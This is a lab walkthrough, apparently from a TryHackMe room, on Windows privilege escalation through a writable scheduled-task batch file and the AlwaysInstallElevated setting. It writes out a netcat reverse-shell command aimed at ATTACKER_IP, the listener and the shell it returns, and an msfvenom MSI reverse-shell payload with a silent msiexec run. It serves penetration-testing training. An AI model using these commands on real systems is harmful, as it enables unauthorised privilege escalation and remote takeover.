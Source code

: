 # 🕰 Scheduled Tasks

\


### Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.\
Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:\
Command Prompt\
`C:\> schtasks /query /tn vulntask /fo list /v`\
`Folder: \`\
`HostName: THM-PC1`\
`TaskName: \vulntask`\
`Task To Run: C:\tasks\schtask.bat`\
`Run As User: taskusr1`

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.\
If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:\
Command Prompt\
`C:\> icacls c:\tasks\schtask.bat`\
`c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)`\
`BUILTIN\Administrators:(I)(F)`\
`BUILTIN\Users:(I)(F)`

As can be seen in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:\
Command Prompt\
`C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:\
`nc -lvp 4444`The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:\
Command Prompt\
`C:\> schtasks /run /tn vulntask`

And you will receive the reverse shell with taskusr1 privileges as expected:\
Kali Linux\
`user@attackerpc$ nc -lvp 4444`\
`Listening on 0.0.0.0 4444`\
`Connection received on 10.10.175.90 50649`\
`Microsoft Windows [Version 10.0.17763.1821]`\
`(c) 2018 Microsoft Corporation. All rights reserved.`

`C:\Windows\system32>whoami`\
`wprivesc1\taskusr1`

Go to taskusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

### AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.\
**Note:** The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.\
This method requires two registry values to be set. You can query these from the command line using the commands below.\
Command Prompt\
`C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`\
`C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below:\
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:\
Command Prompt\
`C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`
